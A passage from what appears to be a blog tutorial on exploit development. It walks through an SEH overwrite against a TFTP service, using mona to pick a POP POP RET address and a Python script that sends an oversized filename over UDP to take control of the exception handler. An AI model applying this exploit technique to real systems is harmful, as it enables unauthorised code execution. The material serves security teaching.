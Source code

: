 [![](https://4.bp.blogspot.com/-KLYL48A-1wc/UK5hO11cCfI/AAAAAAAAAFs/woaBdH8NeDA/s0/Selection_028.png)](https://4.bp.blogspot.com/-KLYL48A-1wc/UK5hO11cCfI/AAAAAAAAAFs/woaBdH8NeDA/s0/Selection_028.png)

With this we can confirm that we can successfully control the addresses that will be used for the NSEH and SEH exception handlers :) We are on our way to making a working exploit!

## Configuring SEH With the Right Information

Ok so next we need to find out the right POP POP RET to use for our SEH exploit. We shall use mona for this again and execute the following:

`!mona seh`

You should get something like the following:
[![](https://1.bp.blogspot.com/-2l2YPGbXPAY/UK5ymbOWW3I/AAAAAAAAAF8/TTH3mxf6VQA/s0/Selection_029.png)](https://1.bp.blogspot.com/-2l2YPGbXPAY/UK5ymbOWW3I/AAAAAAAAAF8/TTH3mxf6VQA/s0/Selection_029.png)

You can also open the SEH.txt file (Most likely under `C:\Program Files\Immunity Inc\Immunity Debugger\seh.txt`)

You can use any of the addresses listed in either the output for in the SEH.txt file which start with `00`. I chose to use the first one listed out of simplicity.

Replace the SEH value with the new one and exploit once again:

```python
import socket 
host = "127.0.0.1"
port = 69 

filename = "A" * 1492
filename += "B" * 4 # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0"

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

[![](https://1.bp.blogspot.com/-LVHqHM63-b4/UK564_REGnI/AAAAAAAAAGM/WkjmcdPq6Z8/s0/Selection_030.png)](https://1.bp.blogspot.com/-LVHqHM63-b4/UK564_REGnI/AAAAAAAAAGM/WkjmcdPq6Z8/s0/Selection_030.png)

 Yay :) We got the SEH handler under control now. Lets check this:

[![](https://3.bp.blogspot.com/-gqxcHcph1WE/UK565m4wc8I/AAAAAAAAAGQ/eY3nUa2oVbI/s0/Selection_031.png)](https://3.bp.blogspot.com/-gqxcHcph1WE/UK565m4wc8I/AAAAAAAAAGQ/eY3nUa2oVbI/s0/Selection_031.png)

Yep that looks right. So where does that take us then?

[![](https://2.bp.blogspot.com/-3cVeV4PdLYc/UK566InEhVI/AAAAAAAAAGU/D1yhq4GjMd0/s0/Selection_032.png)](https://2.bp.blogspot.com/-3cVeV4PdLYc/UK566InEhVI/AAAAAAAAAGU/D1yhq4GjMd0/s0/Selection_032.png)

Oh great balls of fire....that doesn't look nice. It appears that the B's that we are still using to overwrite the NSEH exception handler are where the program is pointing to now. Normally this isn't an issue as we would just jump to code at a higher valued memory address in memory, which would normally be located in memory some place after the NSEH exception handler overwrite. However in this case, we can see that if we were to do this, we would be crossing into a new segment of memory that this program doesn't have access to. That's going to be an issue.
